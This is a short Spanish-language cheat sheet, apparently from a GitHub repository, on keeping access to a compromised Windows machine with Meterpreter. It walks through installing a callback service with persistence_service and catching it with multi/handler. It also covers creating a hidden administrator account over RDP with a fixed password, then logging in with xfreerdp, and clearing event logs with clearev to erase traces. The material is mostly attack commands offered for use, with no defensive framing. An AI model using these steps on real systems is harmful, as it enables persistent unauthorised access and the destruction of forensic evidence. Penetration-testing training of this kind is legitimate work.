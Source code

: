 <h1 align="center">PERSISTENCIA EN WINDOWS</h1>

La persistencia permite mantener el acceso a un sistema vulnerado incluso después de reinicios o cambios en las contraseñas de los usuarios. Para implementar la persistencia, necesitamos tener privilegios elevados en el sistema comprometido

## **Persistencia con el Módulo persistence_service**

Poner la Sesión de Meterpreter en Segundo Plano y buscar el Módulo de Persistencia

`search persistence_service`

Establece la sesión y el payload correspondiente. Este módulo lo que hace es crear un servicio para la máquina víctima que continuamente solicita la conexión por el puerto asignado. Puedes verificar que la persistencia está funcionando matando todas las sesiones de Meterpreter y poniéndote a la escucha con multi/handler asignando el mismo payload y puerto que antes

- `sessions -k`
- `use multi/handler`

##

## **Persistencia vía RDP**

Si deseas establecer la persistencia a través del protocolo RDP, lo puedes hacer de un solo comando en meterpreter

`run getgui -e -u alexis -p hacker_123321`
  - **run getgui**: Verifica si el servicio RDP está habilitado. Si no lo está, lo habilita.
  - **\-e**: Ejecuta la creación del usuario alexis con la contraseña hacker_123321 y lo añade al grupo de administradores.

Ahora, puedes usar la herramienta xfreerdp para conectarte al nuevo usuario creado a través de una interfaz grafica:

`xfreerdp /v:&lt;ip&gt; /u:alexis /p:hacker_123321`

##

## **Borrar el Visor de Eventos para No Dejar Rastro**

Para eliminar las huellas de las actividades realizadas, puedes borrar los eventos del visor de eventos utilizando el siguiente comando en Meterpreter:

`clearev`
